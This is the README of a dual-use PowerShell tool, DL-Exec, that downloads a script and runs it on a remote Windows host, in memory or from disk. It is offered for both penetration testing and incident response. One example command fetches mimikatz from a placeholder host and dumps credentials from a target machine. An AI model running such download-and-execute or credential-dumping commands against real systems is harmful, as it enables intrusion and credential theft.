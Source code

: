 		Download and Execute - PowerShell
		greg . foss [at] logrhythm . com
        @heinzarelli
		v0.1 -- July 2015

# [About]

DL-Exec is a simple script that leverages user-supplied parameters to download and execute a PowerShell script with arguments on a remote host. This script can even run without touching disk via the memoryExec parameter, or if run-time parameters are required, the script can be downloaded and executed on the host directly.

# [How To]

    Execute a PowerShell script on a remote host in-memory:
        
        PS C:\> dl-exec.ps1 -source http://some.site/mimikatz.ps1 -target 10.10.10.10 -memoryExec -arguments "Invoke-Mimikatz -DumpCreds"

    Execute a PowerShell script on a remote host with run-time parameters:

        PS C:\> dl-exec.ps1 -source http://some.site/honeyports.ps1 -target 10.10.10.10 -fileExec -arguments "-Ports 21,22"

# [Use Cases]

Offensive

    Execute various tools from frameworks like PowerSploit, Nishang, etc. on a remote host during penetration testing engagements.

![Mimikatz](/images/remote-mem-dl-exec.png)

Defensive

    Execute various tools from frameworks like Kansa, Honeyports, etc. on a remote host during Active Defense and/or Incident Response scenarios.

![Honeyports](/images/honeyport-fileexec.png)

Other
    
    No matter the script, it's possible to chain additional commands depending on the goal...

![Chaining](/images/command-chaining.png)

# [Parameter Breakdown]

    Script Source:

        -source     :   Define the script source

    Execution Parameters:

        -memoryExec :   Download and execute a script in memory
        -fileExec   :   Download a script and execute it from the host (leaves more traces)
        -arguments  :   Define the command-line arguments/switches/commands to be passed
                        (depending on how the script is executed)
        -target     :   Determine the remote host to extract data from

    Credentials - Required for remote execution and interaction with Active Directory

        -username   :   Administrative Username
        -password   :   Administrative Password

        If neither parameter is supplied, you will be prompted for credentials
        (FYI -- It's a bad idea to supply credentials at the command line, but there are times when it may be required)

# [License]

Copyright (c) 2015, Greg Foss
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
* Neither the name of Greg Foss, LogRhythm, LogRhythm Labs, nor the names of any of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.
* This script is not 'forensically sound' as it will write to the target host. Please keep this in mind.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL <COPYRIGHT HOLDER> BE LIABLE FOR ANY
DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
(INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND
ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
(INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS
SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.